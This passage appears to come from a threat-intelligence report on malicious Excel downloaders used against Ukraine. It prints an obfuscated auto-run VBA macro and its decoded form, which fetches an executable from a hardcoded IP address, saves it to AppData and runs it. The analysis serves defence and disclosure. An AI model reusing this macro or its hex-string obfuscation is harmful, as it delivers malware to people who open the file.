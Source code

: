 Malicious Excel downloader
Three of the six campaigns targeting Ukraine used similar malicious Excel downloaders. The malicious downloader code is stored as a simple macro within the Excel file which is set to run upon opening the file, providing the user has macros enabled. If macros are disabled then the malicious code is unable to run.
The macro code downloads a file from a hardcoded URL, saves it to the file system, and then executes the downloaded file. Two variants of the code are present across the analyzed samples, one which downloads an executable file which it then runs without arguments, and a second which downloads a DLL file which it then runs using the Windows rundll32 command.
The samples all make use of basic obfuscation techniques within the macro code, with some function and variable names replaced with randomly generated names, and strings values encoded in a hexadecimal ascii format and split into multiple parts. An example of one of the obfuscated macros is as follows:
Sub Workbook_Open()
Application.ScreenUpdating = False
Dim xHttp: Set bnntwxnuvivrf = CreateObject(itslnwmojhejvmg("4d6963726f736f") & itslnwmojhejvmg("66742e584d4c48545450"))
Dim bStrm: Set krzbmwewmr = CreateObject(itslnwmojhejvmg("41646f64622e53747265") & itslnwmojhejvmg("616d"))
bnntwxnuvivrf.Open itslnwmojhejvmg("474554"), itslnwmojhejvmg("687474703a2f2f3139332e3134392e3137") & itslnwmojhejvmg("362e3137322f61746163686d656e742e657865"), False
bnntwxnuvivrf.Send
Dim sweidpa As String
sweidpa = Environ("AppData")
With krzbmwewmr
.Type = 1
.Open
.write bnntwxnuvivrf.responseBody
.savetofile sweidpa & itslnwmojhejvmg("5c736572766963657a2e") & itslnwmojhejvmg("657865"), 2
End With
Shell (sweidpa & itslnwmojhejvmg("5c736572") & itslnwmojhejvmg("766963657a2e657865"))
Application.ScreenUpdating = True
End Sub
Decoding the strings results in the following cleaned up code:
Sub Workbook_Open()
Application.ScreenUpdating = False
Dim xHttp: Set bnntwxnuvivrf = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set krzbmwewmr = CreateObject("Adodb.Stream")
bnntwxnuvivrf.Open "GET", "http://193.149.176.172/atachment.exe", False
bnntwxnuvivrf.Send
Dim sweidpa As String
sweidpa = Environ("AppData")
With krzbmwewmr
.Type = 1
.Open
.write bnntwxnuvivrf.responseBody
.savetofile Environ("AppData") & "\servicez.exe", 2
End With
Shell (Environ("AppData") & "\servicez.exe")
Application.ScreenUpdating = True
End Sub
The download URL, file name, and save file path all differ across the samples, and are presented below. It is noted that the first sample appears to have a typo in the execution file name, which does not match the save file name, so this sample would not have executed correctly.
